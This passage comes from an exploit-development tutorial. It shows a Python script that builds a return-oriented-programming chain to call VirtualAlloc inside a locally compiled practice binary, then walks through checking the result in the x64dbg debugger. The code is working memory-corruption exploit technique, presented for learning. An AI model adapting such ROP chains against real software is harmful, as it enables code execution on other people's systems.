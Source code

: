 ```python
payload += struct.pack("<Q", 0x140001243)  # mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400000AC)  # place 1000 on stack --> 0x00000001400000AC = 0x1000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # add edx, eax; mov eax, edx; ret; 
# RDX should now be set to 1002 (ideally 1000 but I got tired of mathing :D )
######################################################


#VirtualAlloc !!!
######################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x14000D288)  # virtualalloc import address
payload += struct.pack("<Q", 0x140001fb3)  # jmp qword ptr [rax]; 
######################################################


# Run the vulnerable program and supply the payload
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/overflow3.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

#uncomment to allow debugging in x64dbg
input("attach 'overflow.exe' to x64Dbg and press enter when you're ready to continue...")

# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())
```

Go ahead and run the script and be sure to set a breakpoint here: `0x14000D288` (reference to VirtualAlloc Address)

![image](https://github.com/user-attachments/assets/b1658b67-15ff-4080-9faa-061df4a125a8)

Continue executing the code in x64dbg until you reach the breakpoint.  Go ahead and step over (F8) once.  You'll land here:

![image](https://github.com/user-attachments/assets/87f6792d-92f9-40c4-9c84-c5aecd624ccb)

Notice the call to `NTAllocateVirtualMemory`!  Step through the code (F8) all the way to the `RET` instruction and STOP!  

Take a look at your registers in the top right corner.  Notice the value in `RAX`.  That's our newly created/allocated memory region!  

